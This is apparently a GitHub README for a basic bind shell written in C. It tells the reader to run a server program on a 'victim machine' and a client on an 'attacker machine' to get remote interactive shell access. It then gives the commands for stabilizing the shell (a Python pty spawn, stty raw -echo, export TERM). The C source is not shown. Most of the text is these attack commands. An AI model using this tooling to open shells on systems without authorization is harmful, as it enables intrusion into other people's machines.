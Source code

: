 ### Bind Shell in C.

This is a basic Server/Client scheme that trigger a shell on a Unix-based server and allows to the client to interact with the shell.

### Usage.

- **Victim machine**: Execute Server.c.

```C
gcc -o server Server.c; ./server
```

- **Attacker machine**: Execute Client.c.

```C
gcc -o client Client.c; ./client
```

Ensure to stabilize the shell after execute *client* program, this stuff is pretty basic:

```bash
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```